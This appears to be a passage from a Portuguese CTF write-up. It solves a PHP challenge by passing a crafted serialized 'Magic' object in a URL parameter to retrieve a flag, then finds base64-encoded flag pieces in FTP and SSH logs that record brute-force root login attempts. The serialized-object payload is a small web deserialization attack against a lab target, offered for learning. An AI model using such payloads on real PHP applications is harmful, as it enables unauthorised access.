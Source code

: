 ```
<?php 

class Magic {
    public $key = true;
/*
    public function doMagic() {
        if ($this->key === true) {
          echo $flag;
        }
        else {
            echo "Nothing...";
        }
    }
*/
}
$magic = new Magic;
    echo(serialize($magic));
    
?>
```
Result: O:5:"Magic":1:{s:3:"key";b:1;}
E ao inserir este valor no URL (?magic=O:5:"Magic":1:{s:3:"key";b:1;}) obti a flag{php_d3s3r14l1z4t10n_3xpl01ts}
<br><br>

# Something Suspicious
Ao sacar os dois log files tentei fazer o tipico grep "flag" e apos nao retornar nada tentei então simplesmente ler os logs.
Ao olhar para o log do ftp, ve-se vários logins, excepto que um deles está cifrado em base64 (ZmxhZ3tzMG0zdGgxbmc=), que corresponde a metade da flag ("flag{s0m3th1ng"). Como o log do ssh é um bocado maior decidi aplicar grep a tipicas keywords (password, user) e após aplicar user, reparo numa string codificada com o valor cifrado (X3N1c3AxYzEwdXN9):
└─$ cat ssh.log\?token=eyJ1c2VyX2lkIjoyODYsInRlYW1faWQiOjEzMywiZmlsZV9pZCI6Mjl9.YRLFNQ.K6H3kyS7yBUHriMpFpI_5GO5wUs | grep "user"     
                              
Jun 25 00:29:58 lockedout auth.info sshd[2875]: Connection closed by authenticating user root 192.128.1.23 port 53496 [preauth]
Jun 25 00:32:43 lockedout auth.info sshd[2897]: Disconnected from authenticating user root 192.128.1.23 port 53498 [preauth]
Jun 25 00:32:44 lockedout auth.info sshd[2899]: Disconnecting authenticating user root 192.128.1.23 port 53500: Too many authentication failures [preauth]
Jun 25 00:33:12 lockedout auth.info sshd[2905]: Disconnecting authenticating user root 192.128.1.23 port 53502: Too many authentication failures [preauth]
Jun 25 00:33:48 lockedout auth.info sshd[2910]: Disconnecting authenticating user root 192.128.1.23 port 53504: Too many authentication failures [preauth]
Jun 25 00:34:20 lockedout auth.info sshd[2912]: Disconnecting authenticating user root 192.128.1.23 port 53506: Too many authentication failures [preauth]
Jun 25 00:34:52 lockedout auth.info sshd[2921]: Disconnecting authenticating user root 192.128.1.23 port 53508: Too many authentication failures [preauth]
Jun 25 00:35:24 lockedout auth.info sshd[2927]: Disconnecting authenticating user root 192.128.1.23 port 53510: Too many authentication failures [preauth]
Jun 25 00:35:56 lockedout auth.info sshd[2932]: Disconnecting authenticating user root 192.128.1.23 port 53500: Too many authentication failures [preauth]
Jun 25 00:36:28 lockedout auth.info sshd[2938]: Disconnecting authenticating user root 192.128.1.23 port 53514: Too many authentication failures [preauth]
Jun 25 00:37:00 lockedout auth.info sshd[2944]: Disconnecting authenticating user root 192.128.1.23 port 53500: Too many authentication failures [preauth]
Jun 25 00:37:32 lockedout auth.info sshd[2949]: Disconnecting authenticating user root 192.128.1.23 port 53518: Too many authentication failures [preauth]
Jun 25 00:49:14 lockedout auth.info sshd[3029]: Invalid user X3N1c3AxYzEwdXN9 from 192.168.1.23 port 53522